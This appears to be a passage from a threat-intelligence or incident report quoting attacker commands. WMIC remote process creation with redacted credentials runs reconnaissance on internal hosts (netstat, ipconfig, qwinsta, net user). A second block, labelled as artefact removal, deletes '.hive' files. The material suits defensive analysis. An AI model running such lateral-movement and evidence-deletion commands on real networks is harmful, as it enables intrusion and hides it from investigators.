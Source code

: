



wmic  /node:<redacted_internal_ip1> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c ping -n 1 -a <redacted_internal_ip4> >$temp\a.tmp
wmic  /node:<redacted_internal_ip2> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c netstat -ano >$temp\a.tmp
wmic  /node:<redacted_internal_ip2> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c tracert <redacted_internal_ip4>>$temp\a.tmp
wmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c ipconfig /all >$temp\a.tmp
wmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c qwinsta >$temp\a.tmp
wmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c net user administrator >$temp\a.tmp
wmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c net user admin >$temp\a.tmp




1234567

wmic  /node:<redacted_internal_ip1> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c ping -n 1 -a <redacted_internal_ip4> >$temp\a.tmpwmic  /node:<redacted_internal_ip2> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c netstat -ano >$temp\a.tmpwmic  /node:<redacted_internal_ip2> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c tracert <redacted_internal_ip4>>$temp\a.tmpwmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c ipconfig /all >$temp\a.tmpwmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c qwinsta >$temp\a.tmpwmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c net user administrator >$temp\a.tmpwmic  /node:<redacted_internal_ip3> /user:<redacted_group>\<redacted_user> /password:<readcted_password> process call create "cmd /c net user admin >$temp\a.tmp





Removal of artefacts from the system:





cmd /C "C: & cd \ & dir $temp\ /od"
cmd /C "C: & cd \ & dir $temp\*.hive"
cmd /C "C: & cd \ & del $temp\*.hive"
cmd /C "C: & cd \ & dir $temp\*.log"
cmd /C "C: & cd \ & type $temp\silconfig.log"




12345

cmd /C "C: & cd \ & dir $temp\ /od"cmd /C "C: & cd \ & dir $temp\*.hive"cmd /C "C: & cd \ & del $temp\*.hive"cmd /C "C: & cd \ & dir $temp\*.log"cmd /C "C: & cd \ & type $temp\silconfig.log"


